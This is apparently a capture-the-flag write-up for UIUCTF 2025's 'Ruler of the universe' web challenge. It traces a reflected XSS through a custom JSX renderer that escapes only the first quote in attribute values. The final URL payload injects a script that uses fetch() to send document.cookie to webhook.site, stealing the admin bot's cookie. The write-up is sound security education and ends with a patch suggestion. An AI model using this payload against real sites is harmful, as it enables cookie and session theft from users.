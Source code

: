 ```yaml
---
title: "UIUCTF 2025 - Ruler of the universe"
date: 2025-07-28 15:00:00 +0200
categories: [UIUCTF 2025, web]
tags: [web]
description: Writeup for the first web challenge of the UIUCTF of 2025
layout: post
---
```


For this challenge, we have the source code of the web application. So let's take a look at it :

### Reading the source code

First, let's locate the flag :

We see an ```adminbot``` folder. That's my trigger for a web-client based challenge. Furthermore, we see : 


```typescript
await browser.setCookie({
    name: "flag",
    value: FLAG,
    domain: new URL(mainUrl).hostname,
    httpOnly: false,
    secure: true,
});
```
{: file="adminbot/index.ts" }

We can clearly see that we need to steal the bot cookie to get the flag. Note that the flag ```httpOnly``` is set to ```false``` so it makes our life easier since we can use javascript to retrieve the cookie. And who says javascript + cookies says XSS !


Our plan is :
- Find an exploitable XSS in the web app
- Submit the compromised URL to the bot
- Enjoy our flag

### Finding the XSS

We see from the source code that the web application has only two pages : ```home.tsx``` and  ```module.tsx```

After viewing ```index.tsx``` we see that ```home.tsx``` does not take any user input, just the admin bot url that we cannot control : 

``` react
"/": {
    GET: (req) => {
        const url = new URL(req.url);

        let adminUrl = "#";
        if (url.hostname == "localhost") {
            adminUrl = "http://localhost:3001";
        } else if (
            url.hostname.endsWith("ruler-of-the-universe.chal.uiuc.tf")
        ) {
            const currentHost = url.host;
            const instancePrefix =
                currentHost.split(`-`)[0] + `-` + currentHost.split(`-`)[1];
            adminUrl = `https://${instancePrefix}-adminbot-ruler-of-the-universe.chal.uiuc.tf/`;
        }

        return new Response(
            render(
                <App>
                    <Home adminUrl={adminUrl} />
                </App>
            ),
            {
                headers: { "Content-Type": "text/html; charset=utf-8" },
            }
        );
    },
}
```
{: file="challenge/src/app/index.tsx" }

But it's different for the ```/module``` path : 

``` react
"/module/:id": {
    GET: (req) => {
        const moduleId = parseInt(req.params.id);
        const crewMessage = new URL(req.url).searchParams.get("message");

        return new Response(
            render(
                <App>
                    <Module id={moduleId} crewMessage={crewMessage} />
                </App>
            ),
            {
                headers: { "Content-Type": "text/html; charset=utf-8" },
            }
        );
    },
}
```
{: file="challenge/src/app/index.tsx" }

We see two arguments are passed to ```module.tsx``` : ```moduleId``` and ```crewMessage```.

- ```moduleId``` is got from the parameters of the url but unfortunately it is cast into an int, so no injection possible here
- ```crewMessage``` is directly taken from the ```message``` parameter, we can play with it as we want

We have now only one option to investigate : the ```crewMessage``` variable.

We see two reflections of ```crewMessage``` in ```module.tsx``` :

``` react
<input
    id="message"
    name="message"
    type="text"
    class="w-full border border-green-400 bg-black text-green-400 px-2 py-1 text-xs"
    placeholder={
        crewMessage
            ? `Update your message: ${crewMessage}`
            : "Enter a message for the crew"
    }
/>
```
{: file="challenge/src/app/pages/module.tsx" }

and : 

``` react
{crewMessage && <p>[13:10] Crew message: "{crewMessage}"</p>}
```
{: file="challenge/src/app/pages/module.tsx" }

### Understanding the rendering logic

At this point, we suspect the ```crewMessage``` value might be reflected unsafely in the DOM. But we need to understand how rendering is performed. Looking at ```challenge/src/my_jsx/index.ts```, we find a custom JSX renderer is used instead of React’s default output engine.

The rendering code looks like this:

``` typescript
if (typeof element === "string" || typeof element === "number") {
    return escapeHTML(element);
}
```
{: file="challenge/src/my_jsx/index.ts" }

This means any string used as a child node (like the second reflection of ```crewMessage```) will be automatically HTML-escaped using escapeHTML.

However, props are handled differently:
``` typescript
.map(([key, value]) => {
    if (typeof value === "boolean") {
        return value ? key : "";
    }
    return `${key}="${String(value).replace('"', "&quot;")}"`;
})
```
{: file="challenge/src/my_jsx/index.ts" }

This code only escapes the first ```"``` in ```&quot```, nothing else (unlike python). This makes the first reflection of ```crewMessage``` vulnerable !

### Making the payload

We know that we can control ```crewMessage``` with the ```message``` parameter on ```/module/id``` and that the first ```"``` will be escape.

We will try something like this : (not url encoded !)
```
https://inst-xxxxxxxxxx-ruler-of-the-universe.chal.uiuc.tf/module/1?message=""><script>alert(1)</script>
```

Explanation : the first ```"``` got escaped but everything else is left as is, so we closed the input tag via ```">``` and finally write our javascript between ```<script>``` tag.

When visiting the url, we sucecssfully get a popup, we have a working XSS !

### Retrieving the flag

Now let's build a payload to steal the admin's cookie and retrieve our flag !

- We can access the cookies by document.cookie
- We need a way to send the cookie back to us

So, we will do a request to a server with the flag.

I personally use webhook.site but of course you're free to use whatever tool you want.

Here's the final url : (again not url encoded)
```
https://inst-xxxxxxxxxx-ruler-of-the-universe.chal.uiuc.tf/module/1?message=""><script>fetch('https://webhook.site/yourUUIDhere/?flag='+document.cookie)</script>
```

Submit the url (only the part from ```module/...```) to the admin bot and enjoy your flag !

### How to patch this ?

Avoid writing your own custom JSX renderer or input sanitizer unless absolutely necessary. Prefer using mature, battle-tested libraries that handle escaping properly, like React’s default DOM renderer.

<i>Solved by <span class="goodwill">OuahLePleutre</span></i>
